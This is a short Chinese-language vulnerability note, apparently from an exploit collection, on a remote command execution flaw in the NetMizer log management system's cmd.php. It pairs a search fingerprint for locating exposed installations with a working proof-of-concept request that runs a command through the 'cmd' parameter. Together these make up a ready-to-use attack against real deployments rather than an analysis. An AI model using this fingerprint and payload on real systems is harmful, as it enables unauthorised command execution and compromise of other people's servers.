

# NetMizer 日志管理系统 cmd.php 远程命令执行漏洞

## 漏洞描述

NetMizer 日志管理系统 cmd.php中存在远程命令执行漏洞，攻击者通过传入 cmd参数即可命令执行

## 漏洞影响

```
NetMizer 日志管理系统
```

## 网络测绘

```
title="NetMizer 日志管理系统"
```

## 漏洞复现

登录页面


验证POC

```
/data/manage/cmd.php?cmd=id
```

